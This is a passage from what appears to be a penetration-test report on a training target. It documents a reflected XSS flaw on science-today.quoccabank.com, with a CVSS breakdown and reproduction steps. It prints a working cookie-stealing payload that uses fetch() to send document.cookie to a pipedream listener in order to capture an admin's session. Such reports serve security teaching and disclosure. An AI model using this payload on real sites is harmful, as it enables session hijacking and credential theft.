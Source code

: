 For more information visit: [OWASP On XSS prevention](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html) and [PortSwigger's File Upload Functionality](https://portswigger.net/kb/issues/00500980_file-upload-functionality).

<div class="pagebreak"> </div>

## 1.12. science-today.quoccabank.com (Reflected XSS)
**Threat - Reflected XSS in Query Field**
### Details
| Metric                   | Description |
| ------------------------ | ----------- |
| Access Vector (AV)       | **Network (N)** - The vulnerable component is bound to the network stack, i.e. remotely exploitable.    |
| Attack Complexity (AC)   | **Low (L)** - Specialized access conditions or extenuating circumstances do not exist. An attacker can expect repeatable success when attacking the vulnerable component.|
| Privileges Required (PR) | **None (N)** -  The attacker is unauthorized prior to attack, and therefore does not require any access to settings or files of the the vulnerable system to carry out an attack. |
| User Interaction (UI)    | **Required (R\)**  - Successful exploitation of this vulnerability requires a user to take some action before the vulnerability can be exploited. In this case, an Admin needs to view the page specified by the attacker.       |
| Scope (S)                | **Unchanged (U)** - The exploited vulnerability can only affect resources managed by the same authority.         |
| Confidentiality (C\)     | **None (N)** - There is no loss of confidentiality within the impacted component.        |
| Integrity (I)            | **None (N)** - There is no loss of integrity within the impacted component.       |
| Availability (A)         | **Low (L)** - Performance is reduced or there are interruptions in resource availability. Even if repeated exploitation of the vulnerability is possible, the attacker does not have the ability to completely deny service to legitimate users.       |

**CVSS Base Score: 4.3 (MEDIUM)**

### Steps to Reproduce
This vulnerability is found on the science-today.quoccabank.com domain, in the search section of the page. Users can query the comments, which can be abused to perform the attack.
- The filter comment option simply reflects the input as a search query in the URL
- Initial testing with payloads such as `<iframe src="javascript:alert(1)"></iframe>` show that the domain is susceptible to reflected XSS attacks
- We thus will a payload that will exfiltrate data to a public facing listener of our choosing. Websites such as [pipedream](https://pipedream.com/) or [webhook](https://webhook.site) allow an attacker to simply setup a listening and public-facing domain easily.
- A potential payload looks like:
```javascript=
<iframe src="javascript:fetch('https://en4wk9uin6mam8n.m.pipedream.net/?a=' + document.cookie)"></iframe>
```
![](https://i.imgur.com/mF5aEiO.png)
*Insertion point for the script*

- Once the filter comments button has been clicked, the URL of the page changes to include the JavaScript. Reporting the page to admin will result in the Admin's credentials being stolen and sent to the domain specified.

![](https://i.imgur.com/ZdX0kmE.png)
*Response returned to the specified domain*
